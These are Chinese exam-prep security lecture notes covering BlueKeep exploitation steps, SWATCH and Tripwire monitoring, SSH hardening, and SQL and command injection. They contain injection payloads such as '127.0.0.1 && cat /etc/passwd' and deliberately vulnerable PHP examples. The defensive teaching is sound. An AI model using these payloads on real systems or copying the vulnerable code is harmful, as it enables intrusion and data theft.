| 检测 | 使用 **`use 0`** 来检测目标主机是否存在 **CVE-2019-0708 远程桌面漏洞**。通过**发送特制 RDP 数据包**验证目标系统是否**未打补丁且存在安全缺陷** |
| 攻击 | 输入 **`run`** 或者 **`exploit`** 开启攻击 |
| 结果 | **执行 POC（shell 或蓝屏）** |

> [!IMPORTANT]
> **CVE-2019-0708 = BlueKeep**，针对的是 **RDP（远程桌面）**服务，属于**远程代码执行（RCE）**，且**无需认证**、可蠕虫化传播。利用后果是**获取 shell 或导致目标蓝屏**。

---

#### 05. 主机监测

##### 📡 SWATCH

**📌 概述**

| 项目 | 要点 |
| --- | --- |
| 定位 | **用于实时监视日志的程序** |
| 配置 | 用户可以在 **swatch 配置文件**中设置**关注的日志文件关键字** |
| 动作 | 还可以设置在这些关键字出现在日志文件中时**执行哪些命令**，如**向管理员发送电子邮件** |
| 机制 | Swatch 利用**指定的触发器**监视日志记录，当日志记录**符合触发器条件**时，会按**预先定义好的方式通知系统管理员** |

**📌 WATCH 检测日志文件的两种方法**

| 方法 | 说明 | 命令 |
| --- | --- | --- |
| **① 从日志文件开头扫描** | 这样会扫描到日志文件中**所有的关键字发生的异常** | `swatch -c /etc/swatch.conf -f /var/log/messages` |
| **② 从日志文件尾部开始扫描** | 适用于**从日志监控工具运行之后**开始监控日志文件，作为**一直运行的服务**来监视日志 | `swatch -c /etc/swatch.conf -t /var/log/messages` |

**📌 参数说明**

| 参数 | 含义 |
| --- | --- |
| `-c` | 用于**指定配置文件** |
| `-f` | **指定要检测的文件** |
| `-t` | **指定实时监视的日志文件** |
| `-r` | **指定重起（重启）的时间** |



> [!TIP]
> 记忆：**`-f` 从头扫（Full/First）**；**`-t` 从尾扫、实时（Tail）**；**`-c` 配置文件（Config）**；**`-r` 重启时间（Restart）**。

---

##### 📡 Tripwire

**📌 概述**

| 项目 | 要点 |
| --- | --- |
| 背景 | 当服务器遭到黑客攻击时，在多数情况下，黑客可能对**系统文件**等等一些**重要的文件进行修改** |
| 作用 | 可以用 Tripwire **建立数据完整性监测系统** |
| 能力边界 | **不能抵御**黑客攻击以及黑客对一些重要文件的修改，**但可以监测文件是否被修改过以及哪些文件被修改过**，从而在**被攻击后有的放矢**地策划出解决办法 |

**📌 原理**

| 项目 | 要点 |
| --- | --- |
| 建库 | Tripwire 被**安装、配置后**，将**当前的系统数据状态建立成数据库** |
| 比对 | 随着文件的**添加、删除和修改**等等变化，通过**系统数据现状与不断更新的数据库进行比较**，来**判定哪些文件被添加、删除和修改过** |
| 前提（关键） | 前提是需要在**服务器开放前**，或者说**操作系统刚被安装后**用 Tripwire 构建数据完整性监测系统 |

**📌 示例命令**

| 命令 | 说明 |
| --- | --- |
| `tripwire --check` | 执行一次完整性检查 |
| `tripwire --check /usr/tmp` | **将 `--check` 命令限制为特定的文件或目录** |


> [!IMPORTANT]
> **Tripwire 是"事后检测"型工具（完整性监测），不是防护工具**。必须在**系统干净时（服务器开放前 / 刚装完系统）**先建基线库，否则基线本身已被污染。

> [!TIP]
> 对比记忆：**SWATCH = 日志实时监测（触发器 + 告警）**；**Tripwire = 文件完整性监测（基线比对）**。

---

#### 06. 安全管理 — SSH

##### 🔐 SSH 概述

**📌 定义与版本**

| 项目 | 要点 |
| --- | --- |
| 全称 | **SSH（Secure Shell，安全外壳协议）** |
| 定义 | 一种在**不安全的网络环境**中，通过**加密机制和认证机制**，实现**安全的访问以及文件传输**等业务的**网络安全协议** |
| 当前版本 | **SSHv2**，提供多种安全功能，**与 v1 不兼容** |

**📌 两大安全机制**

| 机制 | 说明 |
| --- | --- |
| **加密机制** | 在客户端和服务器之间传输的**所有数据都会被加密** |
| **认证机制** | 通过**多种方式**来验证**连接双方的身份**，确保**连接对象的正确性** |

**📌 体系结构与端口**

| 项目 | 要点 |
| --- | --- |
| 结构 | SSH 采用 **C/S（客户端/服务器）结构** |
| 传输 | 通过 **TCP** 进行数据交互，它在 **TCP 之上构建了一个安全的通道** |
| 端口 | SSH 服务支持 **TCP 标准端口 22**，还**支持其他服务端口**，以**防止受到非法攻击** |
| 实现 | **OpenSSH** 是**最流行的 SSH 实现工具**，并被广泛集成到各类操作系统中 |

**📌 SSH 协议的三个组件**

| 组件 | 名称 |
| --- | --- |
| ① | **传输层协议** |
| ② | **用户认证协议** |
| ③ | **连接协议** |



> [!IMPORTANT]
> **SSHv2 与 SSHv1 不兼容**；**OpenSSH** 是最流行的实现；默认 **TCP 22**。

---

##### 🔐 SSH 安全连接阶段

> 原文 Page 874 标题：*「在整个通信过程中，为实现 SSH 的安全连接，服务器端与客户端要经历如下几个阶段」*（该页为示意图，未列出文字条目）。

| 项目 | 要点 |
| --- | --- |
| 场景 | 为实现 SSH 的**安全连接**，**服务器端与客户端**要经历的阶段 |
| 原文呈现 | 以**流程图形式**展示（版本协商 → 密钥与算法协商 → 认证 → 会话请求 → 交互会话），原文未给出文字列表 |

---

##### 🔐 SSH 用户认证流程

###### 🅰️ 口令认证

| 步骤 | 说明 |
| --- | --- |
| 1 | 客户端向远程主机**发起登陆链接请求** |
| 2 | 远程主机收到用户的登录连接请求，然后**把自己的公钥发给客户端** |
| 3 | 客户端收到这个公钥，并**使用这个公钥，将登录密码加密后，发送到远程主机** |
| 4 | 远程主机**用自己的私钥，解密登录密码**，并**验证该密码与当前要登陆的用户密码是否匹配**，匹配就**同意用户登录** |

###### 🅱️ 公钥认证（免密登录，以 Linux 系统为例）

| 步骤 | 说明 |
| --- | --- |
| 1 | 客户端使用 **`ssh-keygen`** 生成**用户公钥和私钥**；（Windows 可以用自带工具 **`ssh-keygen.exe`**，也可以用连接工具如 **xshell、secureCRT** 等） |
| 2 | 客户端将**公钥复制到服务端的 `~/.ssh/authorized_keys`** |
| 3 | 客户端发起连接，**服务端生成随机字符串** |
| 4 | 服务端用**客户端公钥加密随机串**并发送 |
| 5 | 客户端**用私钥解密**，将随机串通过**已协商的会话密钥加密回传**服务端 |
| 6 | 服务端**解密并验证随机串** |
| 7 | **验证通过，允许免密登录** |





---

##### 🔐 公钥免密认证配置过程

###### ① 客户端生成 RSA 密钥对

| 项目 | 要点 |
| --- | --- |
| 命令 | 执行 **`ssh-keygen`** 命令，生成 **`id_rsa`** 和 **`id_rsa.pub`** 两个文件 |
| 私钥 | **`id_rsa` 是私钥（需安全保管）** |
| 公钥 | **`id_rsa.pub` 是公钥** |
| 密钥口令 | 密钥生成过程中**可对密钥设置密码，也可留空直接回车** |
| `-t` 选项 | 指定要使用的**加密算法**，`"rsa"` 表示使用 **RSA 算法**。实际应用中**常使用安全性、性能更高的 `ED25519` 算法（基于椭圆曲线）** |
| `-b` 选项 | **指定密钥的长度** |

###### ② 创建 `authorized_keys` 文件并设置权限

| 步骤 | 命令/说明 |
| --- | --- |
| 检查/创建 | 查看密钥认证文件 `authorized_keys` 是否存在，**若不存在则创建并授权**：<br/>`[root@server1 ~]# touch ~/.ssh/authorized_keys`<br/>`[root@server1 ~]# chmod 600 ~/.ssh/authorized_keys` |
| 追加公钥（方法 1：手动复制粘贴 / `cat` 追加） | `[root@server1 ~]# cd ~/.ssh`<br/>`[root@server1 .ssh]# cat id_rsa.pub >> authorized_keys` |
| 追加公钥（方法 2：`ssh-copy-id` 一键推送） | `ssh-copy-id -i ~/.ssh/id_rsa.pub user@server`<br/>**`-i` 为指定公钥文件，也可以不指定**。将 `user` 替换为你的服务器用户名，`server` 替换为服务器的 IP 地址。**执行后需要输入一次服务器的密码** |

> [!WARNING]
> **注意：ssh 对目录权限敏感**，**`.ssh` 的权限需要为 `700`**，**`authorized_keys` 的权限需要为 `600`**。

###### ③ 服务端 SSH 配置确认

| 步骤 | 命令/配置 |
| --- | --- |
| 编辑配置文件 | 编辑 SSH 服务端配置文件 **`/etc/ssh/sshd_config`**，确保以下选项已开启：<br/>`PubkeyAuthentication yes`<br/>`AuthorizedKeysFile .ssh/authorized_keys` |
| 重启生效 | 修改配置后，需要**重启 SSH 服务**使其生效：<br/>`systemctl restart sshd` |

###### ④ 登录验证

| 场景 | 命令/说明 |
| --- | --- |
| 在 Linux 主机上登录验证 | `[root@server1 .ssh]# ssh root@localhost -i id_rsa`<br/>`Last login: Wed Sep 13 17:13:28 2026 from 192.168.10.1` |
| 在 Windows 下 | 使用 **ssh 客户端导入私钥**登录验证 |

---

##### 🔐 `sshd_config` 常用配置项（完整）

```bash
# ========== 端口与基础连接 ==========
Port 22                     # SSH监听端口，默认22；生产环境建议修改为其他端口降低扫描攻击
ListenAddress 0.0.0.0       # 监听本机哪些IP地址，0.0.0.0代表监听本机所有网卡IP

# ========== 公钥认证【免密登录核心】==========
PubkeyAuthentication yes                # 开启公钥认证，免密登录必须开启，yes启用no禁用
AuthorizedKeysFile .ssh/authorized_keys # 指定存放客户端公钥的文件路径，相对用户家目录

# ========== 密码登录控制（安全加固常用）==========
PasswordAuthentication yes       # 是否开启账号密码登录；配置完免密后建议改为no，禁用密码登录
PermitEmptyPasswords no          # 是否允许空密码账号登录，必须关闭，高危

# ========== 用户权限控制 ==========
PermitRootLogin prohibit-password   # root账号登录策略
# 可选值：yes允许root所有方式登录；no禁止root登录；prohibit-password：root禁止密码登录，但允许公钥免密登录
AllowUsers
# 白名单，仅允许指定用户登录，多个空格隔开，例如AllowUsers admin testuser
DenyUsers
# 黑名单，禁止指定用户登录

# ========== 会话安全配置 ==========
MaxAuthTries 6                      # 单个连接最大认证尝试次数，防止暴力破解
MaxSessions 10                      # 单客户端最多同时建立SSH会话数量

# ========== 空闲会话自动断开 ==========
ClientAliveInterval 300             # 每300秒检测客户端是否存活
ClientAliveCountMax 3               # 3次无响应自动断开空闲连接
```

**📌 配置项速查表**

| 配置项 | 值 | 含义 |
| --- | --- | --- |
| `Port` | `22` | SSH 监听端口，默认 **22**；生产环境建议修改 |
| `ListenAddress` | `0.0.0.0` | 监听本机哪些 IP 地址，`0.0.0.0` 代表**监听本机所有网卡 IP** |
| `PubkeyAuthentication` | `yes` | 开启**公钥认证**，免密登录**必须开启** |
| `AuthorizedKeysFile` | `.ssh/authorized_keys` | 存放客户端公钥的文件路径，**相对用户家目录** |
| `PasswordAuthentication` | `yes` | 是否开启账号密码登录；配置完免密后建议改为 **`no`** |
| `PermitEmptyPasswords` | `no` | 是否允许**空密码**账号登录，**必须关闭，高危** |
| `PermitRootLogin` | `prohibit-password` | `yes` 允许 root 所有方式登录；`no` 禁止 root 登录；**`prohibit-password`**：root **禁止密码登录**，但**允许公钥免密登录** |
| `AllowUsers` | — | **白名单**，仅允许指定用户登录，多个空格隔开，例如 `AllowUsers admin testuser` |
| `DenyUsers` | — | **黑名单**，禁止指定用户登录 |
| `MaxAuthTries` | `6` | 单个连接**最大认证尝试次数**，防止**暴力破解** |
| `MaxSessions` | `10` | 单客户端最多同时建立 SSH 会话数量 |
| `ClientAliveInterval` | `300` | 每 **300 秒**检测客户端是否存活 |
| `ClientAliveCountMax` | `3` | **3 次**无响应自动断开空闲连接 |

> [!IMPORTANT]
> 安全加固三件套（必背）：
> 1. `PermitRootLogin prohibit-password`（禁 root 密码登录）
> 2. `PermitEmptyPasswords no`（禁空密码）
> 3. `PasswordAuthentication no`（配好免密后关密码登录）
>
> 防暴力破解：`MaxAuthTries 6`；防挂机：`ClientAliveInterval 300` + `ClientAliveCountMax 3`。

---

### 第二讲 · 常见漏洞代码分析

> 讲师：至强老师　QQ：2976033　交流Q群：297744872　公众号：至立软考　TB店：至立学院

#### 📖 本讲目录

| 序号 | 主题 |
| --- | --- |
| 1 | SQL 注入 |
| 2 | 命令注入 |
| 3 | XSS |
| 4 | CSRF |
| 5 | 文件包含 |
| 6 | 文件上传 |
| 7 | 缓冲区溢出 |



---

#### 01. SQL 注入

##### 📌 概念

| 项目 | 要点 |
| --- | --- |
| 定义 | **SQL 注入攻击（SQL Injection Attack）**是攻击者通过在 **Web 应用的输入框中插入恶意 SQL 语句**，**欺骗数据库执行非授权操作**的攻击手段 |
| 后果 | 能导致**敏感数据泄露、数据库被篡改、甚至服务器被接管** |
| 地位 | 是 **Web 安全中最常见且危害极大的漏洞类型** |

##### 📌 SQL 注入示例（四步）

| 步骤 | 说明 |
| --- | --- |
| **1. 正常查询逻辑** | 应用通过**拼接用户输入**构建 SQL，如：<br/>`SELECT * FROM users WHERE id = '用户输入的ID'` |
| **2. 恶意输入构造** | 攻击者在输入框中填入：**`1' OR '1'='1`** |
| **3. 拼接后的恶意 SQL** | `SELECT * FROM users WHERE id = '1' OR '1'='1'` |
| **4. 攻击结果** | 由于 **`'1'='1'` 恒成立**，数据库会**返回所有用户信息**，攻击者**成功绕过验证并窃取数据** |

**📌 语句片段含义拆解**

| 片段 | 含义 |
| --- | --- |
| `SELECT *` | 查询**所有列**（id、username、手机号、密码等全部字段） |
| `FROM users` | 从 **users 用户这张表**查询数据 |
| `WHERE id = '用户输入的ID'` | 查询条件：**id 字段等于用户传过来的 ID 值** |
| 单引号 `' '` | **SQL 字符串界定符**，引号内部内容当作字符串值 |



---

##### 📌 类型

**🎚️ 盲注（Blind SQL Injection）**

| 子类型 | 说明 |
| --- | --- |
| **布尔型** | 页面**不会直接返回数据库数据**，依靠**页面内容变化、响应结果的两种差异（真/假）**，来判断注入语句执行结果，**逐步猜解出库名、表名、字段信息** |
| **时间型** | 利用数据库**延时函数**（如 **`sleep`**），根据**服务器响应时间长短差异**，**间接判断** SQL 语句执行结果 |

**🎚️ 报错注入 & 联合查询注入**

| 子类型 | 说明 |
| --- | --- |
| **报错注入** | 构造**非法查询触发数据库报错**，从**错误堆栈中提取库表结构与数据** |
| **联合查询** | 利用 **`UNION` 操作符**拼接恶意查询，**直接获取数据库中未授权的额外数据** |

**🎚️ 二次注入**

| 项目 | 要点 |
| --- | --- |
| 定义 | **恶意数据先存入数据库**，后续**业务逻辑调用该数据时触发注入** |
| 特点 | **隐蔽性更强** |



---

##### 📌 防护策略

| 策略 | 说明 |
| --- | --- |
| **严格的输入验证与过滤** | **基于白名单校验输入格式**，对**特殊字符（如单引号、分号）转义**；**限制输入长度**，**过滤 SQL 关键字**，从**源头阻断非法输入** |
| **强制使用参数化查询** | 用户输入当做**独立参数传递**，**不再直接拼接 SQL 源代码**；由**数据库引擎自动处理参数转义**，**从根本上杜绝注入风险**，是**业界公认的最优防护手段** |
| **错误处理** | **禁止向前端用户输出数据库原始详细报错信息**，防止攻击者**利用报错获取库表结构等敏感信息**；对外返回**统一通用错误提示**；**完整错误详情仅保存到服务器内部日志**，供运维人员排查 |

> [!IMPORTANT]
> **最优防护 = 参数化查询（预编译 / 预处理语句）**。输入过滤是辅助，错误处理是降低信息泄露。

---

##### 📌 源代码示例（**2021 年案例**）

**❌ 漏洞版本（直接拼接）**

```php
<?php
// 假设已经建立了数据库连接$conn
// 获取用户输入
$user_id = $_GET['id'];
// 构建SQL查询，直接将用户输入拼接到查询字符串中，这可能导致SQL注入
$sql = "SELECT * FROM users WHERE id = $user_id";
// 执行查询
$result = mysqli_query($conn, $sql);
// 检查结果并输出
if ($result) {
    while ($row = mysqli_fetch_assoc($result)) {
        echo "ID: " . $row['id'] . " - Name: " . $row['name'] . "<br>";
    }
} else {
    echo "Error: " . mysqli_error($conn);
}
// 关闭数据库连接
mysqli_close($conn);
?>
```

> **危害**：攻击者可通过构造 **`' OR '1'='1`** 等参数，**绕过验证甚至删除数据库**。

**✅ 改进版本（预处理语句 / 参数绑定）**

```php
<?php
// 假设已经建立了数据库连接$conn
// 获取用户输入
$user_id = $_GET['id'];
// 使用预处理语句来构建安全的SQL查询
$stmt = $conn->prepare("SELECT * FROM users WHERE id = ?");
$stmt->bind_param("i", $user_id); // "i" 表示参数类型为整数（参数绑定）
// 执行查询
$stmt->execute();
$result = $stmt->get_result();
// 检查结果并输出
if ($result) {
    while ($row = $result->fetch_assoc()) {
        echo "ID: " . $row['id'] . " - Name: " . $row['name'] . "<br>";
    }
} else {
    echo "Error: " . $stmt->error;
}
// 关闭预处理语句和数据库连接
$stmt->close();
$conn->close();
?>
```

> [!IMPORTANT]
> **原理：将 SQL 结构与数据分离**，数据库会将参数视为**纯数据而非执行代码**，**彻底阻断注入**。
>
> `bind_param("i", ...)` 中的 **`"i"`** 表示参数类型为**整数（integer）**；常见还有 `s`（string）、`d`（double）、`b`（blob）。

---

#### 02. 命令注入

##### 📌 概念

| 项目 | 要点 |
| --- | --- |
| 定义 | **命令注入（Command Injection）**，是指攻击者通过**提交恶意构造的参数**，**破坏命令语句的结构**，从而达到**执行恶意系统命令**的目的 |
| 归属 | 它是 **PHP 应用程序**中常见的**脚本漏洞**之一 |
| 危害等级 | 通常被认为是**「高危」甚至「严重」**，因为**一旦利用成功，几乎等同于拿到了服务器的命令行访问权限** |

**📌 具体危害**

| 危害 | 说明 |
| --- | --- |
| **执行系统命令** | **继承 Web 服务程序的权限**执行**任意系统命令** |
| **读写文件** | 读取**敏感文件**（如 **`/etc/passwd`**、数据库配置文件） |
| **反弹 Shell** | 获取服务器的**远程命令行控制权** |
| **控制服务器** | **完全控制整个网站甚至服务器** |
| **内网渗透** | **以服务器为跳板，攻击内网其他机器** |

**📌 命令连接符（命令注入最核心的攻击武器）**

| 连接符 | 功能说明 |
| --- | --- |
| **`&&`** | **首先执行命令 a 再执行命令 b**，但**前提条件是命令 a 执行正确才会执行命令 b**，**在 a 执行失败的情况下不会执行 b 命令**。又被称为**短路与运算符**。 |
| **`&`** | **首先执行命令 a 再执行命令 b**，**如果 a 执行失败，还是会继续执行命令 b**。也就是说**命令 b 的执行不会受到命令 a 的干扰**；在**执行效率上来说 `&&` 更加高效**。 |
| **`\|\|`** | **首先执行 a 命令再执行 b 命令**，**如果 a 命令执行成功，就不会执行 b 命令**；相反，**如果 a 命令执行不成功，就会执行 b 命令**。又被称为**短路或运算符**。 |
| **`\|`** | 将**前一个命令的输出作为后一个命令的输入**（**管道**） |
| **`;`** | **顺序执行多条命令**（**Linux**） |

> 原文配图中出现的演示命令：`ping 127.0.0.1`、`whoami`



> [!TIP]
> 记忆口诀：**`&&` 与（都要成功才往后）、`\|\|` 或（前面失败才往后）、`&` 不管成败都往后、`;` 排队按顺序、`\|` 管道传输出**。

---

##### 📌 代码示例及效果演示（**2023 年、2025 年案例**）

```php
<?php
// 检查是否有表单提交，即是否有名为'Submit' 的POST变量
if( isset( $_POST[ 'Submit' ]  ) ) {
    // 从请求中获取用户输入的IP地址
    $target = $_REQUEST[ 'ip' ];
    // 根据操作系统执行相应的ping命令
    if( stristr( php_uname( 's' ), 'Windows NT' ) ) {
        // 如果操作系统是Windows，使用Windows的ping命令
        $cmd = shell_exec( 'ping  ' . $target );
    }
    else {
        // 如果操作系统不是Windows（假设为*nix系统），使用*nix的ping命令
        $cmd = shell_exec( 'ping  -c 4 ' . $target );
    }
    // 将命令执行的结果以<pre>标签的形式输出到HTML中，以便用户看到ping命令的输出
    $html .= "<pre>{$cmd}</pre>";
}
// 输出HTML内容（如果有的话）
echo $html;
?>
```

> [!WARNING]
> 漏洞点：**`$target` 未经任何过滤直接拼接进 `shell_exec()`**。
> 攻击示例：`127.0.0.1; whoami`、`127.0.0.1 && cat /etc/passwd`、`127.0.0.1 | whoami`。

---

#### 02-B. 命令注入、代码执行：区别和联系

##### 📌 代码执行定义

| 项目 | 要点 |
| --- | --- |
| 定义 | 应用程序因**输入过滤不严格**，导致攻击者可通过 **HTTP 请求注入恶意代码并在服务器端执行** |
| 本质 | 本质上**等同于植入 Web 后门** |
| 危害等级 | **高** |
| 典型高危函数（PHP） | **`eval()`、`assert()`、`preg_replace()`、`call_user_func()`、`array_map()`、`create_function()`** 及**动态函数调用**，是**漏洞高频触发点** |

---

##### 📌 核心区别

**① 执行层级与对象不同**

| 类型 | 说明 |
| --- | --- |
| **代码执行** | 发生在**编程语言（应用）层**。将用户输入当作**编程语言（如 PHP、Python）的代码片段**来执行。例如执行 **`phpinfo();`** 或 **`echo 123;`** 等**语言自身的代码语句** |
| **命令注入** | 发生在**操作系统（OS）层**。它将用户的输入当作**操作系统的 Shell 命令**来执行。例如，执行 **`ls`、`cat`、`whoami`** 等**系统级指令** |

